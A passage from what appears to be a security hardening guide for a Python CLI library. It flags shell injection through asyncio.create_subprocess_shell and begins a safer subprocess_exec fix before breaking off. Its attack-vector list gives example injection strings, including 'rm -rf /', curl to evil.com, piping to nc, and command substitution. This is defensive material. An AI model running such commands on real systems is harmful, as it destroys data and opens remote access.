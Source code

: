 # Security Enhancement Implementation Guide

## Overview

This document provides detailed specifications for security hardening of the CLI Patterns core type system and subprocess execution layer. These enhancements address command injection vulnerabilities, DoS protection, and input validation.

---

## Priority 1: Command Injection Prevention (CRITICAL)

### Issue Description
The `SubprocessExecutor` currently uses `asyncio.create_subprocess_shell()` which enables shell metacharacter interpretation. This allows attackers who control command strings to execute arbitrary commands via shell injection.

### Vulnerable Code
**File:** `src/cli_patterns/execution/subprocess_executor.py`
**Lines:** 126-132

```python
# CURRENT (VULNERABLE):
process = await asyncio.create_subprocess_shell(
    command_str,
    stdout=asyncio.subprocess.PIPE,
    stderr=asyncio.subprocess.PIPE,
    cwd=cwd,
    env=process_env,
)
```

### Attack Vectors
```python
# Malicious commands that would execute:
"echo test; rm -rf /"           # Command chaining
"echo test && curl evil.com"    # Conditional execution
"echo test | nc attacker 1234"  # Piping to network
"echo $(curl evil.com/shell)"   # Command substitution
"echo `whoami`"                 # Backtick command substitution
```

### Solution Option A: Use subprocess_exec() (RECOMMENDED)

**Implementation:**
```python
import shlex
from typing import Union

async def execute(
    self,
    command: Union[str, list[str]],
    env: dict[str, str] | None = None,
    cwd: str | None = None,
    timeout: float | None = None,
) -> ExecutionResult:
    """Execute command safely without shell interpretation.

    Args:
        command: Command string (will be parsed) or list of arguments
        env: Environment variables
        cwd: Working directory
```